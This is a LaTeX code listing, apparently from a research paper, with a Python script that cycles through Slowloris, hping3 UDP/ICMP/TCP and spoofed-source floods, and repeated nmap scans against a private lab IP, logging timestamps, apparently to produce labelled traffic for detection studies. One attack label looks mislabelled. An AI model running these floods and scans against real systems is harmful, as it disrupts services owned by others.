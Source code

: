 \begin{lstlisting}[caption={Python script for automated attacks and storage of the timestamps}, label={lst:python_attack_script}]
import subprocess
import time
from datetime import datetime

commands = [
    ("Slowloris", ["python3", "slowloris.py", "192.168.1.25", "-s", "500"]),
    ("UDP Flood", ["sudo", "hping3", "--flood", "--udp", "-p", "80", "192.168.1.25"]),
    ("ICMP Flood", ["sudo", "hping3", "--flood", "-1", "192.168.1.25"]),
    ("TCP Flood", ["sudo", "hping3", "--flood", "-p", "80", "192.168.1.25"]),
    ("Synonymous Flood", ["sudo", "hping3", "--flood", "--rand-source", "-p", "80", "192.168.1.25"]),
    ("Portscan", ["bash", "-c", "for i in {1..1000}; do sudo nmap -sT 192.168.1.25; sleep 1; done"]),
    ("OS Fingerprinting", ["bash", "-c", "for i in {1..1000}; do sudo nmap -O 192.168.1.25; sleep 1; done"]),
    ("Aggressive Scan", ["bash", "-c", "for i in {1..1000}; do sudo nmap -A 192.168.1.25; sleep 1; done"]),
]

LOG_FILE = "timestamp_attacks.txt"
RUN_TIME = 15 * 60      # 15 Minuten
BREAK_TIME = 20 * 60    # 20 Minuten

def log_msg(msg):
    with open(LOG_FILE, "a") as f:
        f.write(msg + "\n")

while True:
    for name, cmd in commands:
        start_time = datetime.now()
        print(f"Starte {name}: {' '.join(cmd)}")
        log_msg(f"Start: {start_time.strftime('%Y-%m-%d %H:%M:%S')} - Angriff: {name} - Befehl: {' '.join(cmd)}")
        try:
            proc = subprocess.Popen(cmd)
            proc.wait(timeout=RUN_TIME)
            note = "Erfolgreich beendet"
        except subprocess.TimeoutExpired:
            proc.terminate()
            try:
                proc.wait(10)
            except Exception:
                proc.kill()
            note = "Nach 15 Minuten abgebrochen"
        end_time = datetime.now()
        log_msg(f"Ende: {end_time.strftime('%Y-%m-%d %H:%M:%S')} ({note})")
        log_msg("Pause startet jetzt.\n")
        time.sleep(BREAK_TIME)
\end{lstlisting}